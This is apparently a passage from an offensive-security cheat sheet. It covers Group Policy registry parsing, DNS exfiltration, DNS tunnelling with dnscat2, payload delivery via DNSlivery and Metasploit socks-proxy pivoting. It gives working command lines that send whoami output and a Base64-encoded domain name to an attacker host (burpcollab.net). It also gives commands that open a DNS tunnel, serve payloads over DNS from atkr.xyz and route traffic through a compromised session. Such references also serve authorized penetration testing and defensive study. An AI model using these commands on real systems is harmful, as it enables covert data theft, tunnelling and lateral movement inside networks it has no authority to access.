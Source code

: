 #### Policies

```
PS> Import-Module C:\tools\GPRegistryPolicy\GPRegistryPolicyParser.psm1
PS> Parse-PolFile C:\Users\sysadm\Desktop\Registry.pol
```

### Socks & Port Forwards

#### DNS Exfil Simple

```
> $n=$(whoami);dig "$n.asdf.burpcollab.net"

>  $d=(wmic computersystem get domain);$e=[convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($d);nslookup "$e.asdf.burpcollab.net"
```

#### DNS Tunnel via dnscat

Start dnscat2-server for tunnel.com

```
dnscat2-server tunnel.com
```

From Win10

```
dnscat-2-v0.07-client-win32.exe tunnel.com
```
#### DNSliver

Print, save, and exec functionality via DNS

```
./dnslivery.py eth0 <ns record>.atkr.xyz <A record>.atkr.xyz -p /tmp/dnswww -v
```

##### Resources
- https://github.com/no0be/DNSlivery
- https://medium.com/@maarten.goet/protecting-against-malicious-payloads-over-dns-using-azure-sentinel-b16b41de52fd
- https://www.ired.team/offensive-security/exfiltration/payload-delivery-via-dns-using-invoke-powercloud

#### Msf Socks Proxy

Leverage a session to create a socks proxy.

```
# auto add the route
msf> use multi/manage/autoroute
msf> set session 1
msf> exploit

# setup the socks proxy
msf> use auxiliary/server/socks_proxy
msf> set version 4a
msf> exploit -j
```

